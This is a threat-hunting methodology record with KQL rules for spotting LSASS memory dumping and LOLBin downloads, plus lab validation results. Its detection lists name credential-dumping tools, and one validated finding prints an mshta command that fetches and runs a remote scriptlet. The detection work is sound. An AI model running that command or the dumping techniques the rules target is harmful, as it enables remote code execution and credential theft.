






# Threat Hunt Engineering R&D — TH-001 & TH-005
## *From Engineering Rule to Validated Hunt: A Methodology Record*

> **Author:** Ala Dabat · **Date:** 2026-06-30 · **Status:** Production-Ready  
> **Frameworks:** PEAK · TaHiTI · ABLE · MITRE ATT&CK v15  
> **Reference:** [KQL Detection Engineering — Common Implementation Errors](https://github.com/azdabat/Minimum-Truth-Detection-Framework-ADX-Validated-Composite-Rules/blob/main/KQL%20Detection%20Engineering%20%E2%80%94%20Common%20Implementation%20Errors.md) *(KQL Production Hardening Lint Guide — MTDF)*  
> **Lab:** ADX Docker (`ala-dabat-lab:latest-with-mordor`) · Database: `NetDefaultDB`

---

## Table of Contents

1. [Why This Document Exists](#1-why-this-document-exists)
2. [Framework Architecture](#2-framework-architecture)
3. [TH-001 — LSASS Credential Access Hunt](#3-th-001--lsass-credential-access-hunt)
4. [TH-005 — LOLBin Download Hunt](#4-th-005--lolbin-download-hunt)
5. [Rule Evolution: From Engineering to Hunt](#5-rule-evolution-from-engineering-to-hunt)
6. [Bug Classes Found and Fixed](#6-bug-classes-found-and-fixed)
7. [Lab Validation](#7-lab-validation)
8. [TaHiTI Finalize — Findings Summary](#8-tahiti-finalize--findings-summary)
9. [Backlog — Next Hunts](#9-backlog--next-hunts)

---

## 1. Why This Document Exists

A detection rule and a threat hunt are not the same artefact. They answer different questions, operate on different principles, and produce different outputs. This R&D document records how we built two validated threat hunts from scratch — not by converting engineering rules, but by deliberately designing against them.

The core tension:

| Dimension | Engineering Rule | Threat Hunt |
|---|---|---|
| **Question** | Is this known-bad happening? | What is happening that I haven't named yet? |
| **Vocabulary** | Fixed (DumpTools, TargetProcs) | Deliberately absent |
| **Scoring** | Absolute (threshold = 60) | Relative (rarity vs environment baseline) |
| **Output** | Binary verdict → alert | Ranked candidate list → analyst investigation |
| **Noise suppression** | BenignImages allowlist | Kept in scope — a hollowed system process IS a finding |
| **Auto-action** | Hunter_Directive playbook | No playbook — conviction earned post-validation |
| **PEAK phase** | Act with Knowledge output | Execute phase tool |

The hunt's explicit job is to find what the engineering rule cannot name. Every validated hunt finding either feeds a vocabulary update into the engineering rule, or becomes the seed of a new composite rule entirely.

---

## 2. Framework Architecture

### 2.1 How PEAK, TaHiTI, and ABLE nest together



### 2.2 ABLE Table — Template Used for Both Hunts

The ABLE table is constructed in the PEAK Prepare phase before a single query is written. It prevents the common failure mode of building a query first and then trying to justify what it finds.



---

## 3. TH-001 — LSASS Credential Access Hunt

### 3.1 Hypothesis

> A threat actor is accessing LSASS memory using a process or technique **not covered** by `COMPOSITE_L3_LSASS_CREDENTIAL_THEFT_MASTER` — surfaced via rarity-baseline scoring rather than named-tool matching.

**MITRE:** T1003.001 — OS Credential Dumping: LSASS Memory  
**Tactic:** TA0006 — Credential Access

### 3.2 What the Engineering Rule Covers (and Where the Hunt Lives)



### 3.3 Rule Evolution

Three versions of this rule were built. Each version represents a different stage of maturity.

---

#### Version 1 — Engineering Rule (COMPOSITE_L3_LSASS_CREDENTIAL_THEFT_MASTER)

**Type:** Production detection composite  
**Architecture:** Multi-signal convergence with threshold scoring  
**PEAK Phase:** Act with Knowledge output (already operationalised)

```kql
// COMPOSITE_L3_LSASS_CREDENTIAL_THEFT_MASTER — Key structural elements
// Full rule: see MTDF repository

let DumpTools = dynamic([
    "procdump.exe","dumpert.exe","nanodump.exe",
    "mimikatz.exe","rundll32.exe"
]);
let BenignImages = dynamic(["msmpeng.exe","senseir.exe","wininit.exe","csrss.exe"]);

// Signal A: Known tools (HIGH FIDELITY)
let ProcSignals =
    DeviceProcessEvents
    | where not(InitiatingProcessFileName in~ (BenignImages))
    | extend
        IsComsvcs     = toint(Cmd has "comsvcs.dll" and Cmd has "minidump"),
        IsExplicitTool = toint(Proc in~ (DumpTools) and (Cmd has "lsass" or Cmd has "dump"))
    | where IsComsvcs == 1 or IsExplicitTool == 1;

// Signal B: File artifacts
// Signal C: API telemetry
// Composite scoring → threshold → CRITICAL/HIGH/MEDIUM verdict
```

**What it catches:** Named tools, comsvcs LOLBin, LSASS dump file artifacts  
**What it misses:** Any process not in `DumpTools`, hollowed system processes, new AccessMask variants

---

#### Version 2 — Basic Hunt (HUNT_TH-001 v1)

**Type:** Hypothesis-driven hunt, rarity-baseline hybrid  
**Architecture:** 90-day baseline + NeverSeenBefore / RareGlobally scoring  
**PEAK Phase:** Execute

Key decisions that make this a hunt, not a detection:

```kql
// HUNT VERSION 2 — Core rarity logic (pre-lint-fix)
let AllLsassTouches =
    DeviceEvents
    | where Timestamp >= ago(Lookback)
    | where ActionType in ("OpenProcessApiCall","AccessProcessHandle")
    | where FileName =~ "lsass.exe"
    // NO DumpTools filter — intentional
    // NO BenignImages suppression — intentional
    | project Timestamp, DeviceName, ActorProcess = InitiatingProcessFileName,
              Account = InitiatingProcessAccountName, ActionType, AdditionalFields;

let HistoricalBaseline =
    DeviceEvents
    | where Timestamp >= ago(RarityWindow)  // ⚠️ BUG-1: window overlap — fixed in v3
    | where ActionType in ("OpenProcessApiCall","AccessProcessHandle")
    | where FileName =~ "lsass.exe"
    | summarize HistoricalCount = count()
      by ActorProcess = InitiatingProcessFileName;

AllLsassTouches
| join kind=leftouter HistoricalBaseline on ActorProcess
| extend
    NeverSeenBefore = iif(isnull(HistoricalCount), true, false),
    RareGlobally    = iif(HistoricalCount < 5, true, false)
| summarize
    FirstSeen    = min(Timestamp),
    LastSeen     = max(Timestamp),
    TouchCount   = count(),
    SampleFields = any(AdditionalFields)  // ⚠️ BUG-4: any() non-determinism — fixed in v3
  by ActorProcess, Account, NeverSeenBefore, RareGlobally
| order by NeverSeenBefore desc, RareGlobally desc, TouchCount asc
// No threshold filter — analyst reviews full ranked list
```

**Improvement over v1:** No named-tool filter, no suppression list, rarity-relative scoring  
**Known issues at this stage:** Bug Class 1 (window overlap) and Bug Class 4 (any() non-determinism) — see Section 6

---

#### Version 3 — Production Hunt (HUNT_TH-001 v3 — FINAL)

**Type:** Production-hardened hunt with all lint fixes applied  
**Architecture:** Rarity-baseline + AccessMask analysis + per-finding HuntAlert  
**PEAK Phase:** Execute (simulation-verified, 5/5 test cases pass)

Key additions over v2:

```kql
// HUNT VERSION 3 — Production hardened (all lint fixes applied)

let Lookback     = 30d;
let RarityWindow = 120d;

let KnownDumpTools = dynamic([...]);  // Hunt looks OUTSIDE this list
let HighRiskMasks  = dynamic([
    "0x1010","0x1410","0x1fffff",     // FIXED: 0x1fffff (6f) not 0x1ffff (5f)
    "0x10","0x1f0fff"
]);

let HistoricalBaseline =
    DeviceEvents
    | where Timestamp >= ago(RarityWindow)
      and Timestamp < ago(Lookback)   // [BUG-1 FIX] strict upper bound
    | where ActionType in ("OpenProcessApiCall","AccessProcessHandle")
    | where FileName =~ "lsass.exe"
    | summarize
        HistoricalCount = count(),
        HistoricalMasks = make_set(tostring(parse_json(AdditionalFields).AccessMask), 50)
      by ActorProcess = InitiatingProcessFileName;

// [BUG-4 FIX] arg_max replaces any() — deterministic sample evidence
| summarize
    FirstSeen         = min(Timestamp),
    LastSeen          = max(Timestamp),
    TouchCount        = count(),
    AccessMasks       = make_set(AccessMask, 20),
    MaxIsHighRiskMask = max(IsHighRiskMask),
    arg_max(Timestamp, AdditionalFields)   // locks evidence to max-timestamp row
  by ActorProcess, ActorPath, Account, NeverSeenBefore, RareGlobally, NewMaskVariant

// Per-finding HuntAlert with explicit CompositeUpdateRequired directive
| extend HuntAlert = case(
    NeverSeenBefore == true and MaxIsHighRiskMask == 1,
        strcat("CRITICAL -- ", ActorProcess, " LSASS access NEVER seen. High-risk mask. ",
               "ACTION: Isolate. Verify hash. Check lateral movement."),
    IsSystemProcess == 1 and MaxIsHighRiskMask == 1 and NewMaskVariant == true,
        strcat("CRITICAL -- ", ActorProcess, " system process UNEXPECTED mask. Possible hollowing."),
    ...
)
```

**Full production rule:** `hunts/TH-001/TH-001-final.kql`

### 3.4 Validated Finding

| Field | Value |
|---|---|
| **Actor** | `rundll32.exe` |
| **Technique** | comsvcs.dll MiniDump → LSASS handle open |
| **AccessMasks** | `0x1410`, `0x1fffff`, `0x10` |
| **Account** | `wardog` (Mordor simulation) |
| **Device** | `WORKSTATION5` |
| **Attack Duration** | 32ms |
| **NeverSeenBefore** | `true` |
| **HuntAlert** | `CRITICAL` |
| **Dataset** | Mordor `psh_lsass_memory_dump_comsvcs_2020-10-18` |
| **CompositeUpdate** | ADD `rundll32.exe` to `DumpTools` + AccessMask filter |

---

## 4. TH-005 — LOLBin Download Hunt

### 4.1 Hypothesis

> A process is downloading content via HTTP/FTP that is **not in the router rule's `TargetProcs` vocabulary** — surfaced via rarity-baseline scoring rather than named-tool matching.

**MITRE:** T1218 · T1105 · T1059 · T1197 · T1140  
**Tactic:** TA0001 Initial Access / TA0002 Execution / TA0011 C2

### 4.2 Three-Layer Detection Architecture



### 4.3 Rule Evolution

---

#### Version 1 — Router Rule (ROUTER_INGRESS_TOOL_TRANSFER)

**Type:** Router Rule (Architecture 2 — Triage Surface per MTDF doctrine)  
**Purpose:** Surface named LOLBin download intent, route to correct composite per technique  
**This is NOT a hunt** — it already knows what it's looking for

```kql
// ROUTER_INGRESS_TOOL_TRANSFER — Key structural elements
let TargetProcs = dynamic([
    "certutil.exe","bitsadmin.exe","curl.exe","wget.exe",
    "ftp.exe","tftp.exe","powershell.exe"
    // mshta.exe: MISSING — TH-005 found this gap
]);

DeviceProcessEvents
| where FileLower in~ (TargetProcs) or (HasOrig and OrigLower in~ (TargetProcs))
| where ProcessCommandLine has_any ("http","https","ftp","-urlcache", ...)
| extend
    IsMasqueraded = toint(HasOrig and FileLower != OrigLower),   // [FIX-8] toint()
    HasScript     = toint(ProcessCommandLine has_any ("downloadstring","iex","-enc")),
    BadParent     = toint(InitiatingProcessFileName in~ (SuspiciousParents)),
    IsStagingPath = toint(ProcessCommandLine has_any (SuspiciousDirs))
| extend RiskScore =
      iff(IsMasqueraded == 1, 50, 0)   // [FIX-7] explicit int comparison
    + iff(HasScript == 1,     25, 0)
    + iff(BadParent == 1,     15, 0)
    - iff(IsManagedParent == 1, 15, 0)  // [FIX-BURST] soft penalty not hard suppression
| extend RiskScore = iif(RiskScore < 0, 0, RiskScore)  // [FIX-10] floor at zero
| where RiskScore >= 30                // [FIX-THRESHOLD] router threshold <= 30
| extend RoutingDirective = case(
    IsMasqueraded == 1, "CRITICAL -- T1036 Masquerading Composite",
    FileLower =~ "bitsadmin.exe", "HIGH -- T1197 BITSAdmin Composite",
    ...
)
| summarize arg_max(Timestamp, *) by DeviceId, AccountName, FileName  // [FIX-1] deterministic
```

**Gap identified:** `mshta.exe` present in `SuspiciousParents` (as a parent) but NOT in `TargetProcs` as a downloader — TH-005 finds this blind spot.

---

#### Version 2 — Basic Hunt (HUNT_TH-005 v1)

**Type:** Hypothesis-driven hunt, rarity-baseline hybrid  
**Architecture:** KnownLOLBins exclusion + NeverSeenBefore / RareGlobally scoring

```kql
// HUNT VERSION 2 — Core structure (pre-lint-fix)
let KnownLOLBins = dynamic([
    "bitsadmin.exe","certutil.exe","curl.exe","wget.exe",
    "ftp.exe","tftp.exe","powershell.exe","mshta.exe"
]);

let AllDownloadTouches =
    DeviceProcessEvents
    | where Timestamp >= ago(Lookback)
    | where ProcessCommandLine has_any ("http","https","ftp","download","urlcache", ...)
    | where FileName !in~ (KnownLOLBins)   // explicitly OUTSIDE router vocabulary
    | project Timestamp, ActorProcess = FileName,
              ActorPath = InitiatingProcessFileName,
              CommandLine = ProcessCommandLine;

let HistoricalBaseline =
    DeviceProcessEvents
    | where Timestamp >= ago(RarityWindow)  // ⚠️ BUG-1: no upper bound
    | where ProcessCommandLine has_any (...)
    | where FileName !in~ (KnownLOLBins)
    | summarize HistoricalCount = count() by ActorProcess = FileName;

AllDownloadTouches
| join kind=leftouter HistoricalBaseline on ActorProcess
| extend NeverSeenBefore = iif(isnull(HistoricalCount), true, false)
| summarize
    SampleCLI = any(CommandLine)  // ⚠️ BUG-4: non-deterministic
  by ActorProcess, ActorPath, NeverSeenBefore
```

---

#### Version 3 — Production Hunt (HUNT_TH-005 v3 — FINAL)

**Key improvements over v2:**

```kql
// HUNT VERSION 3 — Production hardened
let HistoricalBaseline =
    DeviceProcessEvents
    | where Timestamp >= ago(RarityWindow)
      and Timestamp < ago(Lookback)   // [BUG-1 FIX] strict upper bound

// [BUG-4 FIX] arg_max replaces any(CommandLine)
| summarize
    FirstSeen       = min(Timestamp),
    TouchCount      = count(),
    ParentProcesses = make_set(ParentProcess, 10),
    arg_max(Timestamp, CommandLine, ActorPath)   // deterministic SampleCLI
  by ActorProcess, Account, NeverSeenBefore, RareGlobally

// [BUG-5 N/A] Boolean flags — no negative scores possible

// Per-finding alerts with RouterUpdateRequired
| extend HuntAlert = case(
    NeverSeenBefore == true and MaxIsSuspParent == 1,
        strcat("CRITICAL -- ", ActorProcess, " downloading, NEVER seen, suspicious parent: ", ActorPath),
    NeverSeenBefore == true,
        strcat("HIGH -- ", ActorProcess, " downloading, NEVER seen in baseline."),
    RareGlobally == true,
        strcat("MEDIUM -- ", ActorProcess, " rare in baseline (< 3 occurrences)."),
    strcat("INFO -- ", ActorProcess, " present in baseline.")
)
| extend RouterUpdateRequired = case(
    NeverSeenBefore == true,
        strcat("ADD to TargetProcs: \"", ActorProcess, "\""),
    ...
)
```

**Full production rule:** `hunts/TH-005/TH-005-final.kql`

### 4.4 Validated Finding

| Field | Value |
|---|---|
| **Actor** | `mshta.exe` |
| **Parent** | `cmd.exe` |
| **CommandLine** | `mshta.exe javascript:a=GetObject("script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218.005/src/T1218.005.sct").Exec();close();` |
| **Account** | `LabUser` |
| **Device** | `VM-Lab` |
| **NeverSeenBefore** | `true` |
| **HuntAlert** | `CRITICAL` |
| **Dataset** | VM-Lab MDE telemetry (Atomic Red Team T1218.005) |
| **RouterUpdate** | ADD `mshta.exe` to router `TargetProcs` |
| **CompositeCandidate** | `COMPOSITE_T1218.005_MSHTA_DOWNLOAD` (pending build) |

---

## 5. Rule Evolution: From Engineering to Hunt



---

## 6. Bug Classes Found and Fixed

Both hunt rules were validated against the [KQL Detection Engineering — Common Implementation Errors](https://github.com/azdabat/Minimum-Truth-Detection-Framework-ADX-Validated-Composite-Rules/blob/main/KQL%20Detection%20Engineering%20%E2%80%94%20Common%20Implementation%20Errors.md) lint guide before production deployment. The following bugs were identified and fixed.

### 6.1 Bug Matrix

| Bug Class | Name | TH-001 | TH-005 | Impact if Unfixed |
|---|---|---|---|---|
| **BUG-1** | Prevalence window overlap | Found & Fixed | Found & Fixed | Attack telemetry inflates its own baseline — active intrusion suppresses `NeverSeenBefore` flag |
| **BUG-2** | Null SHA256 false rarity | N/A | N/A | Not applicable — hunt rules do not use SHA256 prevalence |
| **BUG-3** | leftouter → inner join conversion | Verified Clean | Verified Clean | Events with no reinforcement silently dropped — real attacks missed |
| **BUG-4** | `any()` non-determinism | Found & Fixed | Found & Fixed | Evidence column may come from different row than score — analyst reads inconsistent output |
| **BUG-5** | Negative score floor | N/A | N/A | Boolean flags only in hunt rules — no numeric scoring, no negative possible |
| **MASK** | AccessMask typo | Found & Fixed | N/A | `0x1ffff` (5f) ≠ `0x1fffff` (6f) — system process hollowing scenario never fired as CRITICAL |

### 6.2 Bug Class 1 — Prevalence Window Overlap

**Found in:** TH-001 `HistoricalBaseline`, TH-005 `HistoricalBaseline`

The broken pattern — baseline and detection windows overlap:

```kql
// BROKEN — Timestamp >= ago(RarityWindow) has no upper bound
// Attack events occurring during the detection window also appear in baseline
let HistoricalBaseline =
    DeviceEvents
    | where Timestamp >= ago(RarityWindow)   // ← includes detection window
    | summarize HistoricalCount = count() by ActorProcess = InitiatingProcessFileName;
```

The fixed pattern:

```kql
// FIXED — strict upper bound excludes detection window from baseline
let HistoricalBaseline =
    DeviceEvents
    | where Timestamp >= ago(RarityWindow)
      and Timestamp < ago(Lookback)          // ← detection window excluded
    | summarize HistoricalCount = count() by ActorProcess = InitiatingProcessFileName;
```

**Consequence of the bug:** An attacker operating for 2+ days within the detection window would have their LSASS touches counted in the baseline, inflating `HistoricalCount` and potentially suppressing `NeverSeenBefore` on the **active intrusion**. The rule silently discounts exactly what it should be escalating.

### 6.3 Bug Class 4 — `any()` Non-Determinism

**Found in:** TH-001 `any(AdditionalFields)`, TH-005 `any(CommandLine)`

The broken pattern:

```kql
// BROKEN — any() is non-deterministic
// SampleCLI may come from row A while NeverSeenBefore came from row B
| summarize
    SampleCLI       = any(CommandLine),           // ← row A
    NeverSeenBefore = any(NeverSeenBefore)         // ← row B (different row)
  by ActorProcess
```

The fixed pattern:

```kql
// FIXED — arg_max locks all sample columns to the max-timestamp row
| summarize
    FirstSeen   = min(Timestamp),
    TouchCount  = count(),
    arg_max(Timestamp, CommandLine, ActorPath)   // ← deterministic: same row
  by ActorProcess, Account, NeverSeenBefore, RareGlobally
```

**Consequence of the bug:** An analyst reviewing a CRITICAL finding could read a benign-looking command line (from row A) next to a CRITICAL alert triggered by a malicious command line (from row B). Evidence and verdict are inconsistent, eroding analyst trust in the output.

### 6.4 AccessMask Typo — TH-001 Specific

**Found in:** `HighRiskMasks` dynamic list

```kql
// BROKEN — 5 f's, not a valid AccessMask value
let HighRiskMasks = dynamic(["0x1ffff"]);   // ← incorrect

// FIXED — PROCESS_ALL_ACCESS is 0x1fffff (6 f's)
let HighRiskMasks = dynamic(["0x1fffff"]);  // ← correct
```

**Consequence of the bug:** The `wininit.exe` system-process hollowing scenario — where a trusted process opens LSASS with full access rights — would never fire as CRITICAL. The AccessMask match would always fail silently.

---

## 7. Lab Validation

### 7.1 Environment

| Component | Value |
|---|---|
| **Platform** | ADX Docker (`ala-dabat-lab:latest-with-mordor`) |
| **Container** | `hungry_yalow` |
| **Database** | `NetDefaultDB` |
| **Port** | `localhost:8080` |
| **Saved image** | `ala-dabat-lab:with-th001-data` (Docker commit post-validation) |
| **Schema** | MDE-equivalent (`DeviceEvents`, `DeviceProcessEvents`, `DeviceFileEvents`, `DeviceLogonEvents`, `DeviceNetworkEvents`, `DeviceRegistryEvents`) |

### 7.2 Data Sources Used

| Table | Rows | Source | Hunt |
|---|---|---|---|
| `DeviceEvents` | 184 | Mordor `psh_lsass_memory_dump_comsvcs_2020-10-18` | TH-001 |
| `DeviceProcessEvents` | 705 | Mordor `ProcessCreation` (transformed) | TH-001, TH-005 |
| `LsassHuntRaw` | 184 | Raw Mordor Windows Security Events (4663, 4656, 4658) | TH-001 (dev) |

### 7.3 TH-001 Simulation Results (5/5 Pass)

| Actor | Expected | Actual | Reason |
|---|---|---|---|
| `rundll32.exe` | CRITICAL | ✅ CRITICAL | NeverSeenBefore + high-risk mask 0x1410, 0x1fffff |
| `sqldumper.exe` | CRITICAL | ✅ CRITICAL | NeverSeenBefore + high-risk mask |
| `wininit.exe` | CRITICAL | ✅ CRITICAL | System process + unexpected mask 0x1fffff (after mask fix) |
| `createdump.exe` | MEDIUM | ✅ MEDIUM | RareGlobally — baseline count = 1 |
| `msmpeng.exe` | INFO | ✅ INFO | Established in baseline — count = 6 (>= threshold 5) |

### 7.4 TH-005 Simulation Results (3/3 Pass)

| Actor | Expected | Actual | Reason |
|---|---|---|---|
| `rundll32b.exe` | CRITICAL | ✅ CRITICAL | NeverSeenBefore + suspicious parent `cmd.exe` |
| `expand.exe` | HIGH | ✅ HIGH | NeverSeenBefore + benign parent `svchost.exe` |
| `desktopimgdownldr.exe` | MEDIUM | ✅ MEDIUM | RareGlobally — baseline count = 2 |
| `mshta.exe` | EXCLUDED | ✅ EXCLUDED | In `KnownLOLBins` after validation |
| `certutil.exe` | EXCLUDED | ✅ EXCLUDED | In `KnownLOLBins` |

---

## 8. TaHiTI Finalize — Findings Summary



---

## 9. Backlog — Next Hunts

| Hunt ID | Hypothesis | MITRE | Priority | Data Source | Trigger |
|---|---|---|---|---|---|
| **TH-002** | Abnormal RC4 service-ticket requests / bulk SPN enumeration outside normal account baseline | T1558.003 | CRITICAL | `IdentityDirectoryEvents` | Empire DCSync telemetry in lab |
| **TH-003** | Pass-the-Hash — NTLM authentications inconsistent with account's normal logon host / type pattern | T1550.002 | CRITICAL | `DeviceLogonEvents` | Mordor PtH dataset |
| **TH-006** | Scheduled task creation pointing to non-standard path outside change window | T1053.005 | HIGH | `DeviceProcessEvents` | Empire `schtask_modification` telemetry |
| **TH-010** | WMI Win32_Process Create calls from non-standard initiating processes | T1047 | HIGH | `DeviceEvents` | Empire WMI datasets |
| **TH-015** | Statistical beaconing — low-variance interval outbound connections to new/rare destinations | T1071 | HIGH | `DeviceNetworkEvents` | C2 jitter simulation |
| **TH-022** | Non-DC account issuing directory replication requests (DCSync) | T1003.006 | CRITICAL | `IdentityDirectoryEvents` | Empire DCSync telemetry |

---

## Appendix — Quick Reference

### Hunt Design Checklist

Before writing any hunt query, verify:

- [ ] ABLE table completed (Actor, Behaviour, Location, Evidence)
- [ ] `KnownDumpTools` / `KnownLOLBins` updated from latest engineering rule vocabulary
- [ ] **BUG-1:** `HistoricalBaseline` has `and Timestamp < ago(Lookback)` upper bound
- [ ] **BUG-3:** No `where` filter on right-side fields after `leftouter` join
- [ ] **BUG-4:** `any(column)` replaced with `arg_max(Timestamp, column)` for sample evidence
- [ ] **BUG-5:** Score floor `iif(score < 0, 0, score)` present if numeric scoring used
- [ ] **MASK:** AccessMask values verified: `PROCESS_ALL_ACCESS = 0x1fffff` (6 f's)
- [ ] No threshold filter — output is ranked list not alert
- [ ] No `Hunter_Directive` auto-playbook — conviction earned post-validation
- [ ] `HuntAlert` per finding tier: CRITICAL / HIGH / MEDIUM / INFO
- [ ] `CompositeUpdateRequired` / `RouterUpdateRequired` directive per finding

### Key URLs

| Resource | URL |
|---|---|
| Threat Hunting Repo | `https://github.com/azdabat/Threat-Hunting` |
| Roadmap (live) | `https://azdabat.github.io/Threat-Hunting/roadmap/` |
| MTDF Repo | `https://github.com/azdabat/Minimum-Truth-Detection-Framework-ADX-Validated-Composite-Rules` |
| KQL Lint Guide | [KQL Detection Engineering — Common Implementation Errors](https://github.com/azdabat/Minimum-Truth-Detection-Framework-ADX-Validated-Composite-Rules/blob/main/KQL%20Detection%20Engineering%20%E2%80%94%20Common%20Implementation%20Errors.md) |

---

*R&D document generated from live hunt sessions · ADX Docker lab · June 2026*  
*All hunt queries simulation-verified against synthetic adversary telemetry before production deployment*
